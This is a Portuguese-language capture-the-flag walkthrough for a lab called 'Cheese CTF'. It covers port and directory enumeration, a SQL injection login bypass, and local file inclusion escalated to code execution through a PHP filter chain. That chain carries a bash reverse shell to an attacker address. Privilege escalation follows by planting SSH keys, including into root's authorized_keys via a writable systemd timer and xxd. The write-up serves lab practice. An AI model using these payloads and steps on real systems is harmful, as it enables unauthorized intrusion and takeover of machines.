

# _**Cheese CTF**_


## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```

Vamos encontrar outra maneira de enumerar este endereço  
> ```bash
> nmap --open -sV -O [ip_address]
> ```

Temos praticamente todas as portas com algum serviço!  
Não conseguiremos investigar tudo, então vamos procurar em algumas portas padrão como a 80  
Parece que temos um website  
Vamos tentar enumerar com <mark>Gobuster</mark>
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/common.txt
> ```


Investigando o site também, parece que encontramos um link para uma página de login 

## _**Ganhando acesso**_


Apesar de sabermos da página, não podemos realizar muito com ela sem pista de usuário ou até mesmo senha  
Investigando a maioria dos resultados HTTP, nada de útil foi encontrado  
Procurando algumas soluções, encontrei a dica de tentar <mark>SQL Injection</mark> por não ter usuário ou senha  
> ```bash
> ' || '1'='1';-- -
> ```


Conseguimos entrar na página de administrador, vamos investigar  
O endereço URL parece responder a um _script .php_, vamos ver se retorna algum arquivo interessante  


Temos retorno de _/etc/passwd_  
Após algum tempo tentando obter um shell através de LFI e também tentativas de RCE, conseguimos através da seguinte tentativa  
Primeiro, vamos criar nossa shell através do link:
> ```bash
> git clone https://github.com/synacktiv/php_filter_chain_generator.git && cd php_filter_chain_generator && clear && ls
> ```
Na descrição desse serviço, temos:  
_<mark>Uma CLI para gerar uma cadeia de filtros PHP, obtenha seu RCE sem fazer upload de um arquivo se você controlar inteiramente o parâmetro passado para um require ou include no PHP!</mark>_  
Em seguida, vamos utilizar o comando abaixo para gerar nosso _payload_  
> ```bash
> python3 php_filter_chain_generator.py --chain "<?php exec('/bin/bash -c \"bash -i >& /dev/tcp/[vpn_ip_address]/[port] 0>&1\"'); ?>" | grep "^php" > payload.txt
> ```

Agora, vamos utilizar de ```curl``` para conseguirmos obter um _shell_  
> ```bash
> curl "http://[ip_address]/secret-script.php?file=$(cat payload.txt)"
> ```


Vamos investigar _/home_ para ver o que encontramos  
Temos _user.txt_, mas sem permissões para ler seu conteúdo  

## _**Escalando privilégios**_
Primeiro, vamos buscar ```linpeas.sh``` via ```curl```
> ```bash
> curl http://[ip_address]:[port]/linpeas.sh -o /tmp/linpeas.sh
> ```
Em seguida, damos as permissões e executamos  
Após, vamos procurar uma maneira de conseguir escalar privilégios  
Encontramos o seguinte trecho


Vamos explorar!  
Primeiro, em nossa máquina, criamos uma achave _SSH_  
> ```bash
> ssh-keygen -t rsa
> ```
Siga as etapas de procedência  
Execute os dois comandos abaixo, o primeiro em sua máquina, o segundo na máquina alvo  
> ```bash
> cat [filename].pub
> echo 'cat [filename].pub result' >> /home/comte/.ssh/authorized_keys
> ```
Por fim, faça login como ```comte``` via SSH  
> ```bash
> ssh -i comte comte@[ip_address]
> ```


Do resultado anterior de ```linpeas```, temos:  


Podemos executar ```systemctl``` e modificar um arquivo chamado _exploit.timer_, que pode ser usado para executar um serviço de exploit  
Vamos alterar _/etc/systemd/system/exploit.timer_  


Ele irá disparar o xxd quando o executarmos  


De acordo a imagem acima, podemos obter privilégios de _root_ escrevendo a chave SSH que geramos com acesso ao binário xxd  
> ```bash
> sudo systemctl daemon-reload
> sudo /bin/systemctl start exploit.timer
> echo 'cat [filename].pub result' | xxd | /opt/xxd -r - "/root/.ssh/authorized_keys
> ```

Agora, emo nossa máquina, vamos realizar login novamente via SSH
> ```bash
> ssh -i comte root@[ip_address]
> ```


Basta ir atrás das flags!
